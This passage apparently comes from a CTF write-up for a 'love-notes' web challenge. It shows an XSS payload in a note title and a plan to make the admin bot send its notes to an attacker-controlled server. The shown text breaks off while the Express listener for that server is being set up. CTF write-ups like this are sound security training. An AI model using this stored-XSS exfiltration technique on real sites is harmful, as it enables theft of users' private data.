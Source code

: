 ```javascript
}
```

Let's try create a note and follow the workflow of the bot:

```
Title: <script>alert('Hi Crew 2025');</script>
Content: abc
```

![Guide image](/images/posts/love-notes-3.png)

Type in the URL: `/dashboard?reviewNote=<NOTE_ID>`, you can find the `NOTE_ID` by inspecting the note element

![Guide image](/images/posts/love-notes-4.png)

It doesn't show the alert as expected, however when you visit `/api/notes/<NOTE_ID>` you can see that the alert will appear.

![Guide image](/images/posts/love-notes-5.png)
![Guide image](/images/posts/love-notes-6.png)

Therefore, we can execute script in this page `/api/notes/<NOTE_ID>`. XSS (Cross-Site Scripting) will take place in this challenge.

Initially, I thought that I could take the cookie of the bot then used it to sign in as admin. But I found out that I can't because the cookie sent to the authenticated user via `/login` route has settings:

```javascript
res.cookie('token', token, {
    sameSite: 'strict',
    httpOnly: true,
    secure: true,
    maxAge: 3600000, // 1 hour expiration time
});
```

This settings make it impossible to take the cookie and send to my listening server.

I came up with another solution that I don't need to take the cookie, I will force the bot to send the notes of the admin to my listening server.

Firstly, let's create a listening server to get the notes, I use Express to create mine:

```javascript
const express = require('express');
const cors = require('cors');
const path = require('path');
const fs = require('fs').promises;

const app = express();
const port = process.env.PORT || 8000;

// The origin of your front-end application.
// This is the URL that the browser is running on.
const frontendOrigin = 'https://inst-<YOUR_WEBSITE_ID>-love-notes.chal.crewc.tf';

// Configure CORS to only allow your front-end origin.
// This is a crucial step to fix the error and ensure security.
app.use(
    cors({
        origin: frontendOrigin,
        credentials: true, // Set this to true if your frontend request in cludes credentials
    }),
);
app.use(express.json()); // make sure body parser is enabled
```